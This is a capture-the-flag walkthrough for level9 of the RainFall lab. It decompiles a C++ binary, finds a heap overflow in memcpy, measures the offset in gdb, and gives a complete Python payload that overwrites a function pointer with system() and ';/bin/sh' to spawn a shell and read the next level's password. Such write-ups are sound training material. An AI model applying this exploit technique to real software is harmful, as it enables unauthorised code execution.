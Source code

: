## Basic analysis
All right, lets give this a try:
~~~shell
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 42
level9@RainFall:~$ ./level9 42 42
level9@RainFall:~$ ./level9 42 42 42
level9@RainFall:~$ 
~~~
Doing nothing, not really helpful...you deserve to be eaten by **Ghidra**!
~~~C
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator.new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
void __thiscall N::N(N *this,undefined4 param_1)

{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(undefined4 *)(this + 0x68) = param_1;
  return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
~~~
As we see, this binary is C++, two instances of a class N is allocated. Also, the function **setAnnotation()** is called for the first N instance, expecting the argument from main, measuring it and calling **memcpy(*dest, *src, int length)**. There is no system call, nor any function to print or revel the flag for the next level. But **memcpy** is vulnerable to overflow, so let's try that and invoke shell on the place of return address. 

## Overflow
Lets get the offset:
~~~shell
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers eax
eax            0x41366441	1094083649
~~~
Using the **wiremask** ti generate the pattern and memory address of the eax (return value) register, we find out the offset is **108**. This would correlate with the decompiled code, where creation of the N clss instances happens with the **0x6c**, which is hexadecimal for 108 decimal. Now we know the offset, the point is to overflow it to rewrite the return adress of the method setAnnotation - to call the shell for us. 

Info needed:
1) Memory address of system() ((gdb) info functions system): **0xb7d86060**
2) Address of EAX register (which contains the return value we need to overwrite..): **0x804a00c**
~~~shell
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) run 424242
Starting program: /home/user/level9/level9 424242

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:	0x32343234
(gdb) 
~~~
3) offset: **108**


The payload will be sent to the binary as an argument and will be structured like - **address of system (4 bytes) -> padding of 104 bytes -> address of eax register -> ";l/bin/sh" as a argument for system()**
~~~shell
level9@RainFall:~$ ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "a" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
sh: 1: 
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
~~~
